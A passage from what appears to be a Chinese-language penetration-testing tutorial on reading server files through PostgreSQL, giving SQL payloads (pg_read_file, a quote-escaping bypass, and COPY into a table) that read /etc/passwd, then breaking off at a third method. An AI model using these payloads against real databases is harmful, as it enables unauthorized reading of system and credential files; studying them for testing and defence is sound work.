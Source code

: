 - - -

# [0x02 PostgreSQL 读文件](#toc_0x02-postgresql)

**方法 1 pg\_read\_file**

```plain
-- 注意：在早期的 PostgreSQL 版本中，pg_read_file 不允许使用绝对路径
select pg_read_file('/etc/passwd');

-- 单引号被转义的情况下使用
select/**/PG_READ_FILE($$/etc/passwd$$)
```

[![15.png](assets/1698894509-a809468e15bb89db4467075cbf17a899.png)](https://storage.tttang.com/media/attachment/2022/04/13/98194b2b-9aa9-4174-9eea-2d6ba11f5192.png)

**方法 2**

```plain
create table testf0x(t TEXT);
copy testf0x from '/etc/passwd';
select * from testf0x limit 1 offset 0;
```

[![8.png](assets/1698894509-e386f9278b864c0476e489af0bef9f08.png)](https://storage.tttang.com/media/attachment/2022/04/13/e2e1feb9-8e4e-45ee-b898-ab0fb34edabc.png)

**方法 3 lo\_import**
